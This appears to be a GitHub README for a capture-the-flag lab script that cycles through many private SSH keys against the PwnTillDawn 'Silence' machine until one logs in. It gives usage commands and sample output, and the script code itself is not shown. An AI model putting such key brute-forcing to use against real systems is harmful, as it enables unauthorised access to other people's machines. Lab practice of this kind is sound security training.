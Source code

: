 # PwnTillDawn Silence

This script is written for the `Silence` machine aka `10.150.150.55` which loops through multiple private ssh keys until it find the correct one.

## Usage

To run the script cd to the private directory where the keys are then run the script with `bash id_loop.sh` or `chmod +x id_loop.sh & ./id_loop.sh`.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/silence/private]
└──╼[★]$ bash ../id_loop.sh 
[*] Trying id_rsa1
[-] 'id_rsa1' Wrong Key', skipping
[*] Trying id_rsa10
[-] 'id_rsa10' Wrong Key', skipping
[...]
[*] Trying id_rsa[REDACTED]                  
[+] Success with id_rsa[REDACTED]
```
